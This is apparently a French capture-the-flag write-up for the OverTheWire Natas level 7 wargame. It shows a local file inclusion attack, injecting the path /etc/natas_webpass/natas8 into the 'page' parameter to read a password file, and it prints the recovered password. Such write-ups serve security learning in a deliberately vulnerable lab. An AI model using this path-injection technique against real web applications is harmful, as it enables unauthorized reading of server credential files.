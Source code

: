 ## Over-The-Wire -writeup-
### Natas7 (http://natas7.natas.labs.overthewire.org/)

---
#### Etape 1

On observe le code source (Ctrl+U) et on trouve un commentaire:
> <!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->

Il y aurait une faille pour piocher des fichiers dans les disques distants.  
L'URL du site se compose comme ceci:
> http://natas7.natas.labs.overthewire.org/index.php?page=home //pour la page *home*
> http://natas7.natas.labs.overthewire.org/index.php?page=about //pour la page *about*

Et si on demandait la page kebab à l'index.php ?

---
#### Etape 1

Demandons donc la page kebab:
> http://natas7.natas.labs.overthewire.org/index.php?page=kebab //renvoie des indices

On a ces erreurs qui sont venues se rajouter dans l'HTML:
```html
<b>Warning</b>:  include(kebab): failed to open stream: No such file or directory in <b>/var/www/natas/natas7/index.php</b> on line <b>21</b><br />
<br />
<b>Warning</b>:  include(): Failed opening 'kebab' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in <b>/var/www/natas/natas7/index.php</b> on line <b>21</b><br />
```

index.php fait appel au fichier kebab depuis son propre répertoire: `/var/www/natas/natas7/index.php`

---
#### Etape 3

Essayons d'appeler la page index.html avec son chemin absolu en rentrant `/var/www/natas/natas7/index.php` à la place de *home* ou *about*

Une boucle infinie est appelée, mais le fichier index.html est bien appelé par la requête qu'on vient d'envoyer !

---
#### Etape 4

Il suffit maintenant de remplacer le chemin d'index.html par le chemin donné par l'indice: **/etc/natas_webpass/natas8**

> http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

Le HTML renvoie maintenant le code `DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe`

---
Mot de passe: **DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe**
